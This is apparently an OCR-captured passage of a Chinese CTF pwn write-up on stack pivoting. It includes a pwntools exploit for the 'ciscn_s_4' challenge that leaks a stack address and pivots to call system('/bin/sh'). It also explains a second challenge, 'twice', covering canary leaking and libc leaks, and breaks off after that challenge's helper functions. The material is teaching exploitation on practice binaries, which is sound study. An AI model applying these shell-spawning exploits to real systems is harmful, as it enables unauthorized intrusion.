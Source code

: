 ```python
p = process('ciscn_s_4')
#p = remote('node4.buuoj.cn',27969)
elf = ELF('ciscn_s_4')
libc = ELF("./libc-2.27.so")

def dbg():
	gdb.attach(p)
	pause()

bss_addr = 0x804a500
system = elf.sym['system']
read = elf.sym['read']
leave_ret = 0x080484b8
lg('bss_addr',bss_addr)

pl = 'a'*0x28
sa('name?',pl)
ru(pl)
s = u32(p.recv(4).ljust(4,'\x00'))-0x38
lg('s',s)
pl = p32(system)+'aaaa'+ p32(s+12)+'/bin/sh\x00'
pl = pl.ljust(0x28,'a')
pl += p32(s-4)+p32(leave_ret)
p.send(pl)
p.interactive()
```
第一次read去获取一个s的地址
第二次就构造自我跳转
`system函数传入的参数是/bin/sh的地址，在栈上传字符注意使用p.send`

## 例题3 第五空间2020 twice（64位）
### 思路
![main](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-2f370242af122914.png)
![第一次循环和第二次循环](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-9e86a5215cb3f97f.png)
![vuln](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-40089385075a8f79.png)
![check](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-89714b8af6f94e9e.png)
64位有金丝雀，观察题目发现，第一次循环时count=0，只能输入89个字符，而二次112个字符，总共也只有2次循环。第一次还会把最后一位置零。
第一次就是用来泄露金丝雀
第二次则用来栈迁移泄露libc 和getshell
这里有2个EXP，只有一点区别，就是在执行完puts泄露函数地址后执行的函数不同
如果是选择用start函数，一定要注意canary会重置，ebp也会改变。
而选择0x4007a9（for循环的条件函数），不直接用read函数在于read函数是一个条件跳转，不能直接调用
这道题的输入数据很大，就不用转移到bss段上，自我跳转执行即可
`tips:一定要写好exp流程，recvuntil什么的`

### EXP
```python
# system(/bin/sh)
from pwn import *
context.log_level = 'debug'

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
```